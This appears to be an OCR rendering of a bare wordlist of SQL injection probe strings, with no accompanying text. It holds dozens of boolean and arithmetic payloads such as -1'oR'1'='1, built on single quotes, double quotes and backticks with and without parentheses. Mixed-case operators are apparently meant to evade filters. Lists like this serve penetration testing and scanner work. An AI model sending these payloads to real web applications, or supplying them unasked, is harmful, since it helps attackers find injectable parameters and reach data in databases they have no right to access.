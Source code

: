 ```sql
-1'||'1'='1
-1'oR'1'='1
1'aND'1'='1
1"
1">"0
2"-"1
0"+"1
1"*"1
1"%"2
1"&"1"="1
1"&&"2"="1
-1"||"1"="1
-1"oR"1"="1
1"aND"1"="1
1`
1`>`0
2`-`1
0`+`1
1`*`1
1`%`2
1`&`1`=`1
1`&&`2`=`1
-1`||`1`=`1
-1`oR`1`=`1
1`aND`1`=`1
1')>('0
2')-('1
0')+('1
1')*('1
1')%('2
1')&'1'=('1
1')&&'1'=('1
-1')||'1'=('1
-1')oR'1'=('1
1')aND'1'=('1
1")>("0
2")-("1
0")+("1
1")*("1
1")%("2
1")&"1"=("1
1")&&"1"=("1
-1")||"1"=("1
-1")oR"1"=("1
1")aND"1"=("1
1`)>(`0
2`)-(`1
0`)+(`1
1`)*(`1
1`)%(`2
1`)&`1`=(`1
1`)&&`1`=(`1
-1`)||`1`=(`1
-1`)oR`1`=(`1
1`)aND`1`=(`1

```

